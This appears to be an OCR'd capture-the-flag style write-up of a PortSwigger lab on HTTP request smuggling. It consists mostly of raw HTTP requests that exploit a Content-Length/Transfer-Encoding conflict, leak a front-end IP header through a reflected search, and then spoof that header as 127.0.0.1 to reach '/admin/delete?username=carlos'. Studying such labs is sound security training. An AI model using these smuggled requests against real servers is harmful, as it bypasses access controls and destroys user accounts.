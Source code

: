 x=1
0
POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close
search=PHONE
---
POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked
0
POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close
search=PHONE
---
POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked
0
POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close
search=PHONE
---
RESPONSE:
    </header>
    <header class="notification-header">
    </header>
    <section class=blog-header>
    <h1>0 search results for 'PHONEPOST / HTTP/1.1
X-lFuLwp-Ip: 173.94.163.116
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFE'</h1>
                        <hr>
                    </section>         
 _The Header I needed:
 #### X-lFuLwp-Ip:
then added it to the smuggled request with 127.0.0.1
sent this through repeater a few times
---
POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
tRANSFER-ENCODING: chunked
0
GET /admin/delete?username=carlos HTTP/1.1
`X-lFuLwp-Ip: 127.0.0.1
---
##### and BOOM!
- The response:
HTTP/1.1 `302 Found